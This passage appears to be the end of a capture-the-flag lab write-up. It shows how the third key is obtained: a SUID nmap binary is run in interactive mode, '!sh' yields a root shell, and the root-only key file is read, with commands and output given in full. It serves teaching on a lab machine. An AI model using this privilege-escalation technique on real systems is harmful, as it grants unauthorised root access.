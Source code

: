 ```text
```

## Grabbing Key 3

We see nmap is in the list, there is a simple way to run that in interactive mode to get a root shell:

```text
robot@linux:/$ /usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cat /root/key-3-of-3.txt
<<HIDDEN>>
```

All done. See you next time.
